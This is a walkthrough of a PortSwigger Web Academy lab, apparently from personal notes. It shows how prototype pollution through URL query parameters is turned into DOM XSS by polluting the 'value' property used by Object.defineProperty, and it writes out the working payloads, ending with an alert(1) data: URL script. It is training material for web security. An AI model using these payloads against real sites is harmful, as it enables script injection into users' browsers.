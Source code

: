 ```yaml
---
{"dg-publish":true,"permalink":"/port-swigger-web-academy/prototype-pollution/prototype-pollution-via-api/lab-4/"}
---
```



---

## Objective: Get DOM XSS

Let's test for the source using the usual payload

```
/?__proto__[foo]=bar
```

Verify it in the console

```
Object.prototype.foo
```

![Pasted image 20250331024618.png](/img/user/Images/Pasted%20image%2020250331024618.png)

Okay that worked, now we need to find a gadget, check out the sources file. We have one noticeable block

```js
async function searchLogger() {

    let config = {params: deparam(new URL(location).searchParams.toString()), transport_url: false};
    
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
    
    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}
```

So the usual gadget `trasport_url` cannot being used this time because it is defined from the `config` object. 

In the next line, we see `Object.defineProperty` method is used to make the `transport_url` property unconfigurable and unwritable. Fortunately, just like the `fetch` API, the method doesn't explicitly define an **optional objects**. In this case, its the `value` property.

We can use the `value` property as our gadget to be polluted and the `script` element as our sink

#### Exploit

We can test our payload first

```
/?__proto__[value]=bar
```

Now, we check if the `script` tag has appeared

![Pasted image 20250331025938.png](/img/user/Images/Pasted%20image%2020250331025938.png)

Nice, that worked. Now we just trigger an alert

```
/?__proto__[value]=data:,alert(1);
```


![Pasted image 20250331030041.png](/img/user/Images/Pasted%20image%2020250331030041.png)


